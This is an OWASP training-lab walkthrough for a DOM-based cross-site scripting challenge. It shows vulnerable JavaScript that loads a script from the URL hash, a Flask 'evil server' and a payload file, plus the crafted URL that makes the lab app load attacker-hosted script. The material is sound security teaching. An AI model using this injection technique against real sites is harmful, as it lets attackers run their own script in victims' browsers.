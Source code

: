 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-xss-dom2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-xss-dom2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/python/XSS-DOM-2/1.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/python/XSS-DOM-2/2.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/python/XSS-DOM-2/3.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/python/XSS-DOM-2/4.png)

Now we can serve our malicious js file to the application

```text
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```

![](../../.gitbook/assets/python/XSS-DOM-2/5.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
